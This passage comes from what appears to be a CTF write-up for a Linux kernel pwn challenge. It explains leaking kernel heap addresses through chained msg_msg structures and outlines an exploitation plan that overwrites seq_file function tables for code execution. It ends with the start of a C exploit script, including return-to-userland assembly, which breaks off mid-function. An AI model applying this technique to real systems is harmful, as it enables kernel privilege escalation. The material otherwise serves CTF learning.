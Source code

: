 ## VI: Leak KHeap-x

With the primitives above, it seems we solved this challenge but actually, you’ll find that the kernel heap is not as deterministic as the user space heap.  The offset between pages of `kmalloc-32` to `kmalloc-128` will change. So we need a way to leak the address of `Kheap-x` 

As we know, `msg_msg` is a linked list so we can chain different sizes of messages. For example, the first `msg_msg` struct is on `kmalloc-128` while the second one is on `kmalloc-196`. So we can trace the linked list to `Kheap-x` (x≤0x1000). 

For example, in this challenge, we are on `kmalloc-128` and we can read everything on that page. So we can create another `msg_msg(size=128)` struct on the same page and append a `msg_msg(size=0x196)` to it. We can leak the address of `msg_msg(size=0x196)` by reading the next pointer of `msg_msg(size=128)`. Therefore, we can combine this skill with previous skills to read and write arbitrary addresses on kernel heap(`object_size<0x1000`)!

# 0x04 Exploitation

- Use the vulnerability to edit `msg_msg.m_ts`  to leak current page address(`kmalloc-128`) and `kernel.text` address
- Combine `VI: Leak KHeap-x` and `III: Arbitrary Address Read` to leak the address of `kmalloc-32`
- Spray `kmalloc-32` with `seq_file.op`
- Use `V: Arbitrary Address Write` to modify the function tables of `seq_file` to execute  arbitrary code

# 0x05 Exploitation Script

- I still need to fix it since it’ll give SEGFAULT after executing my shellcode
- Lots of useless stuff in the script
- Not very stable



```c
// Success Rate ~= 80%
#include "libx.h"
// https://github.com/n132/libx/tree/main
/*
    Libx Init Starts
*/
#if defined(LIBX)
    size_t user_cs, user_ss, user_rflags, user_sp;
    void saveStatus()
    {
        __asm__("mov user_cs, cs;"
                "mov user_ss, ss;"
                "mov user_sp, rsp;"
                "pushf;"
                "pop user_rflags;"
                );
        printf("\033[34m\033[1m[*] Status has been saved.\033[0m\n");
    }
    size_t back2root = shell;
    void back2userImp(){
        __asm__("mov rax, user_ss;"
            "push rax;"
            "mov rax, user_sp;"
            "push rax;"
            "mov rax, user_rflags;"
            "push rax;"
            "mov rax, user_cs;"
            "push rax;"
            "mov rax, back2root;"
            "push rax;"
```

[1]: https://elixir.bootlin.com/linux/latest/source/fs/seq_file.c
[2]: https://elixir.bootlin.com/linux/latest/source/ipc/msg.c
[3]: https://duasynt.com/blog/linux-kernel-heap-feng-shui-2022
[4]: https://arttnba3.cn/2021/11/29/PWN-0X02-LINUX-KERNEL-PWN-PART-II/
[5]: https://github.com/sajjadium/ctf-archives/tree/0328b950496e5d12b775e8bd67d1569977ec10c0/ctfs/VULNCON/2021/pwn/ips